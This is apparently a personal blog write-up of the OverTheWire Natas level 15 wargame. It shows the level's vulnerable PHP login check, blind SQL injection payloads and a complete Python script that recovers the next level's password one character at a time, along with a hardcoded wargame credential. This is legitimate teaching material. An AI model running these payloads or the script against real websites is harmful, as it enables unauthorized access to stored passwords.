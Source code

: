 ```yaml
---
layout: post
title: Natas15 Writeup
categories:
  - CTF writeups
  - natas
tags:
  - beginner
  - sqli
  - python
  - script
description: First Writeup! On OverTheWire Natas Wargame 15
date: 2024-10-25 22:49 -0400
---
```


### First Glance

Looking at the source code:

```php
if(array_key_exists("username", $_REQUEST)) {
    ...

    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    $res = mysqli_query($link, $query);
    if($res) {
    if(mysqli_num_rows($res) > 0) {
        echo "This user exists.<br>";
    } else {
        echo "This user doesn't exist.<br>";
    }
    } else {
        echo "Error in query.<br>";
    }

    ...
```

### Attack Vector

In line 3, there would be our SQL injection point as `username` field
is the only way to manipulate the query.

Also by looking at line 11, if the query returns at least 1 row, we
would have an indicator that our query is true (`The user exists`).

So for the first try, I made this query:

> `" OR 1=1 #`

(Using `#` for comment as only that worked in natas14), which worked pretty nicely.

### Where I got stuck

Then I tried a few things, knowing the username is natas16 and the password length
is 32 by comparing the previous passwords. We got another query:

> `natas16" AND SUBSTRING(password, 1, 1) = "a" #`

This query worked for the most part, I placed it in the script to get all
the characters, even verified it with the SQLi by placing the whole password in there.
But here comes the problem, why can't I get authorized to the next stage?

### Solution

Then I did some more research, found out that there's a SQL Keyword called `LIKE`,
where you can combine with `%` to check if the word start with that. Also when combined
with `BINARY` it can check case sensitive. Hence we have the final script:

```python
import requests
from requests.auth import HTTPBasicAuth
from halo import Halo


url = "http://natas15.natas.labs.overthewire.org/index.php"
username = "natas15"
password = "SdqIqBsFcz3yotlNYErZSZwblkm0lrvx"
auth = HTTPBasicAuth(username, password)
charset = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"
pw_len = 32

passwd = ""


with Halo(text="Enumerating", spinner="dots") as loading:
    loading.start()
    print("\n")
    for i in range(1, pw_len + 1):
        for char in charset:
            # Move cursor up two lines and clear them before printing the new update
            print("\033[F\033[K\033[F\033[K", end="")

            data = {
                "username": f'natas16" AND SUBSTRING(password, {i}, 1) LIKE BINARY "{char}%" #'
            }

            print(f"Password: {passwd}\nQuery: {data}")

            r = requests.post(url, auth=auth, data=data)
            if "exists" in r.text:
                passwd += char
                break

print(f"Final password: {passwd}")

```
